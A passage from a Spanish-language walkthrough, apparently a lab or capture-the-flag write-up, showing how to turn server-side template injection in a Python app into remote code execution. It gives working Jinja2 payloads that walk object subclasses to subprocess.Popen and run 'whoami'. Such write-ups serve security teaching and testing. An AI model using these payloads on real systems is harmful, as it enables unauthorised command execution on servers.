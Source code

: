 ![](/assets/img/UPDWP-ssti/subclasses.png)

Y aqui viene lo bueno, por que vean lo que se encuentra aca:

![](/assets/img/UPDWP-ssti/subprocess.png)

Haciendo un llamado de subprocess podemos ejectuar comandos

#### Consiguiendo RCE

Ahora toca ubicar a que indice pertenece subprocess.Popen, yo ya lo habia sacado y es al 414, asi que para acceder a el usamos el payload: {\{''.\_\_class__.\_\_mro__[1].\_\_subclasses__()[414]}}

![](/assets/img/UPDWP-ssti/subprocess2.png)

Pero ojo, no siempre se encuentra en esa posicion, varia de la aplicacion.

Ahora ejecutaremos un comando tomando en cuenta la sintaxis de ```subprocess.Popen```, con el metodo ```communicate()``` al final, y nuestro payload queda asi: 

{\{''.\_\_class__.\_\_mro__[1].\_\_subclasses__()\[414]('whoami', shell=True, stdout=-1).communicate()}}

![](/assets/img/UPDWP-ssti/subprocess3.png)
